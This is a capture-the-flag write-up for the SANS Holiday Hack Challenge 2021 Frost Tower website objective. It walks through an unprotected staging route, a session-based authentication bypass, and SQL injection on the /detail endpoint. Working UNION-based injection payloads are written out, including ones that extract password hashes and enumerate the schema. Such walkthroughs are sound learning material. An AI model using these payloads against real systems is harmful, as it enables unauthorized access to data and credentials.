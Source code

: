 # OBJECTIVE 12 - Frost Tower Website Checkup #

## OBJECTIVE : ##
>Investigate [Frost Tower's website for security issues](https://staging.jackfrosttower.com/). [This source code will be useful in your analysis](Assets/frosttower-web.zip). In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you. 
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 12</summary>
  
>-  When you have the source code, API documentation becomes [tremendously](https://www.npmjs.com/package/express-session) [valuable](https://github.com/mysqljs/mysql).
</details>

#  

## PROCEDURE : ##

### 1. Getting Past the Splash Page ###

We start this challenge with access only to a “Coming Soon” splash-page with a text box that allows us to submit an email address.  From the hints I can guess that this objective will most likely involve SQLi so any fields that accept user input will be of particular interest, unfortunately the input to the text box is being validated in this case.  

I used [Atom](https://atom.io/) to load up the source code for the whole project and this allowed me to search through all the files and compare more easily.  I noticed that the “Coming Soon” splash-page had a hidden variable called `csrf` with a seemingly randomly-generated token value.  Other pages on the website check for this token to ensure that they are not accessed directly and that you can only visit them from other places on the website. 

By searching for the keyword `csrf` in the source code I noticed that there is one page that does not include this variable and that’s `/testsite`. In fact, I was able to enter the URL `https://staging.jackfrosttower.com/testsite` directly to my browser and access the staged website.

### 2. Auth Bypass ###

Once I was able to access the Jack Frost Tower website, I had access to the **‘About Us’**, **‘Services’** and **‘Contact Us’** pages but only the latter had any user input fields.  There is also a link to a *‘Dashboard login’/ but this requires login credentials which I don’t have (yet).

It took me several hours of staring at the source code and finally ended up solving this bit completely by accident!  If you submit a contact form and then try to re-submit with the same email address you get a message saying that the email already exists.  If you then navigate to `http://staging.jackfrosttower.com/dashboard` you are allowed in.  From what I can understand the `session.unique.ID` is set as `session.uniqueID = email` in the `/postcontact` part of the code.  The `/dashboard` part of the code then checks to see if this variable is set before allowing access to the dashboard page.

### 3. SQL Injection ###

Now that I had access to the Dashboard, I was able to view details and edit some fields for the users that registered on the *‘Contact Us’* pages.   I decided to start looking for a possible SQLi entry point.  I did this by searching the code for every instance where there is a `SELECT * FROM` statement in the code as this could be a potential SQLi entry point.  All the website parts I have access to appear to pass on sanitised user input to the `SELCT * FROM` operation by using the `escape()`[^1]  function.  
There is one exception however; the `/detail` page accepts a user id from the URI (eg. `https://staging.jackfrosttower.com/detail/1`) and passes the value on directly to `detail.ejs`[^2].  I can also pass on multiple comma-separated user ids (`…/detail/1,2,3`) and the page lists all of them.  So, this now looks like a very likely SQLi vulnerability.

*(NOTE: from here on the `https://staging.jackfrosttower.com/` part of the URI will be implied for ease of legibility).*

If I pass the following string, I can see a list of all entries in the `uniqeucontact` database.
```
.../detail/1,2 OR 1=1
```

I can also order the results by a particular column value – so this page is most definitely vulnerable to SQLi:
```
…/detail/1,2 OR 1=1 ORDER by email
```

With some luck[^3]  I was also able to get data from other tables including password hashes for the Admin and Super Admin users – this led me in the wrong direction for a while - it looks like it’s mostly useless to try and crack Bcrypt hashes.
```
.../detail/1,2 UNION SELECT * FROM users WHERE user_status=1 OR user_status=2
```

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/15699c8f-8ecf-4cd6-9ff7-e0a1e7be4e0d)

The biggest challenge I was facing at this point was the way in which the web page displays the data returned from the databases.  The `/detail` page is expecting to retrieve 7 fields of data from the table `uniqecontact`; `id`, `full_name`, `email`, `phone`, `country`, `date_created` and `date_update` (I can see this by looking at the source code and database structure).  So, I decided to try passing my own 7 fields to the SQL query to understand a bit better how the page is working.  To keep things simple, I passed seven fixed values from `11` to `77` and examined how these were displayed on the screen[^4].  I had to assign each value to a variable and use multiple `JOIN` commands to avoid using commas in my query (as these are being filtered): 
```
.../detail/1,2 UNION SELECT * FROM (SELECT 11)A JOIN (SELECT 22)B JOIN (SELECT 33)C JOIN (SELECT 44)D JOIN (SELECT 55)E JOIN (SELECT 66)F JOIN (SELECT 77)G;--
```

From the result of this query, I could tell that the page is displaying the 2nd, 3rd, 4th and 5th SELECT queries only, so I should be able to replace the `22`, `33`, `44` and `55` placeholders in my query with other values that are more interesting to me.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/502c967c-3b92-4e5e-a351-ce2ea4300ea6)


For example, I can see a list of names stored in the `users` table with the following query:
```
.../detail/1,2 UNION SELECT * FROM ((SELECT 11)A JOIN (SELECT name FROM users)B JOIN (SELECT 33)C JOIN (SELECT 44)D JOIN (SELECT 55)E JOIN (SELECT 66)F JOIN (SELECT 77)G);--
```

Since the objective’s question seems to be asking for a cleartext answer, it stands to reason that there must be some kind of text stored somewhere in the database that I can reference using SQLi.  Maybe there are more tables than those shown in the source code provided?  Let’s find out…
```
.../detail/1,2 UNION SELECT * FROM ((SELECT 11)A JOIN (SELECT table_name FROM information_schema.tables)B JOIN (SELECT 33)C JOIN (SELECT 44)D JOIN (SELECT 55)E JOIN (SELECT 66)F JOIN (SELECT 77)G);--
```

Sure enough – [those sneaky guys at SANS](https://www.sans.org/mlp/holiday-hack-challenge#Credits) included a fourth table called `todo` which was not included in the source code!  It would be useful to find out what columns it contains now:
```
.../detail/1,2 UNION SELECT * FROM ((SELECT 11)A JOIN (SELECT column_name FROM information_schema.columns WHERE table_name='todo')B JOIN (SELECT 33)C JOIN (SELECT 44)D JOIN (SELECT 55)E JOIN (SELECT 66)F JOIN (SELECT 77)G);--
```

From this query I now know that table `todo` contains the following columns: `id`, `note` and `completed`.  All that remains now is to have a peak at what’s inside `todo`:
```
.../detail/1,2 UNION SELECT * FROM ((SELECT 11)A JOIN (SELECT note FROM todo)B JOIN (SELECT 33)C JOIN (SELECT 44)D JOIN (SELECT 55)E JOIN (SELECT 66)F JOIN (SELECT 77)G);-- 
```

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/ceb65c25-f088-40c0-9754-9b64b0061e82)

**And there we have it – proof that Jack Frost is an expert at adding insult to injury!!**

#  

[^1]:[https://github.com/mysqljs/mysql#escaping-query-values](https://github.com/mysqljs/mysql#escaping-query-values)
[^2]:I must point out that I have close to no experience in coding and even less so with web applications – so this is just how I *think* it might be working – but I definitely stand to be corrected.
[^3]:This query only works because the `users` table has the same number of columns as `uniquecontact` – so it’s only by sheer luck that I got this result
[^4]:Many thanks to **i81b4u#9510** on Discord for helping me reason this one out.
